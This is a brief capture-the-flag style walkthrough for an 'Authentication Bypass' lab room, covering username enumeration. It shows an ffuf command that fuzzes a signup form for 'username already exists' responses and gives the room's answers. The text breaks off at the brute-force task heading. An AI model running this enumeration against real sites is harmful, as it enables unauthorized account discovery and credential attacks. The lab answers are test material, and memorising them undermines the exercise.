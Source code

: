 # Authentication Bypass

## Task 1 - Brief
No answer needed, deploy the machine

## Task 2 - Username Enumeration

In order to get the answers for the second task, the following command has to be executed:

ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http:// IP deployed machine/customers/signup -mr "username already exists" > valid_usernames.txt


What is the username starting with si*** ?
R/ simon


What is the username starting with st*** ?
R/ steve


What is the username starting with ro**** ?
R/ robert

## Task 3 - Brute Force
